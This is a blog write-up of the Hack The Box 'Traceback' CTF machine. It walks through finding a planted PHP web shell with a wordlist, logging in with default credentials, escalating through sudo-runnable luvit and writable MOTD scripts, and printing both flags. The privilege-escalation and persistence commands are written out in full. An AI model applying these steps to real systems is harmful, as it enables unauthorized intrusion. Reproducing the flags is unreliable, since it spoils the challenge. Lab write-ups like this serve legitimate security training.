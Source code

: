 +++
title = "[HTB] Traceback"
date = 2020-08-25
template = "post.html"

[taxonomies]
categories = ["Security"]
tags = ["CTF", "Web"]
+++
Traceback is an easy Linux-based machine released on the 14th of March 2020 and
reachable on the IP address `10.10.10.181` (despite what's written on the info
card).

![HTB Traceback information card](htb-traceback-info-card.jpg)

<!-- more -->

## User flag

Nmap indicates us that the Traceback machine is running OpenSSH and Apache:

```
$ nmap -A 10.10.10.181 | tee nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 19:03 IST
Nmap scan report for 10.10.10.181
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```

Let's have a look at the website available on port 80:

![Landing page of the website accessible on port
80](htb-traceback-landing-page.png)

The `index.html` page doesn't contain much but this HTML comment:

```html
<center>
  <h1>This site has been owned</h1>
  <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
  <h3> - Xh4H - </h3>
  <!--Some of the best web shells that you might need ;)-->
</center>
```

It is definitely a hint. A quick search on DuckDuckGo with the keywords "Xh4H
web shell" returns [https://github.com/Xh4H/Web-Shells][web-shells] as first
result. It is a Git repository full of web shells. One of them is certainly the
one that the original attacker has left on the server!

To create a wordlist with the web shells comprised in the Git repository, I
called the [GitHub API][github-api-trees] with this one-liner command-line:

```
$ curl -s https://api.github.com/repos/Xh4H/Web-Shells/git/trees/4c9bade954938d56597325b872739c1a2463cf91 | jq -r .tree[].path | grep -vi readme | tee web-shells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Then, I fuzzed the web server with this wordlist using ZAP:

![Output from ZAP's fuzzer with the list of web shells previously
generated](htb-traceback-web-shells.png)

And voila! The backdoor is accessible at
[http://10.10.10.181/smevk.php][smevk-backdoor]:

![SmEvk web shell's login page](htb-traceback-smevk-login-page.png)

The credentials `admin:admin` are hard-coded in the web shell:
[https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15][smevk-credentials].

Then, I used the terminal available in the "Console" tab to poke around a
little:

```
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

A Lua tool?

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

It indeed seems that the `webadmin` user can execute `/home/sysadmin/luvit` on
behalf of `sysadmin` without password.

[Luvit][luvit] is a program which "implements the same APIs as Node.js, but in
Lua!". We can therefore use it to execute Lua payloads. We fill prepare one for
reading the user flag:

```
$ printf 'file = io.open("/home/sysadmin/user.txt", "r")\nio.input(file)\nprint(io.read())\nio.close(file)\n' > /tmp/read_flag.lua
```

And then:

```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/read_flag.lua
```

Which gives us the user flag: `e564de9f40e354deb591fa121937ca0d`.

## Root flag

Before going further, I wanted to get a "real" shell so I added an SSH public
key of mine to the `sysadmin` user's authorised keys and then connected back to
the server as `sysadmin` via SSH.

During the rest of my investigation, something caught my attention:

```
$ find / -type f -writable 2>/dev/null | grep -v '^/proc' | grep -v '^/sys'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
```

The `sysadmin` user can edit the MOTD scripts!

```
$ ls -al /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 16:22 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 16:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 16:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 16:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 16:22 91-release-upgrade
```

This is really bad (for the server's owner at least) because these scripts are
executed upon any new SSH connection as defined in `/etc/pam.d/sshd`:

```
...
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
....
```

All I need is to modify one of those scripts to print the root flag:

```
$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

And when one logs in via SSH:

```
$ ssh -o PasswordAuthentication=no -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

fa6d76ff6866c37f381b5f6e40f8ce89


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 23 16:23:41 2020 from 10.10.14.16
$
```

The root flag was `fa6d76ff6866c37f381b5f6e40f8ce89`.

 [github-api-trees]: https://developer.github.com/v3/git/trees/#get-a-tree
 [luvit]: https://luvit.io/
 [smevk-backdoor]: http://10.10.10.181/smevk.php
 [smevk-credentials]: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15
 [web-shells]: https://github.com/Xh4H/Web-Shells
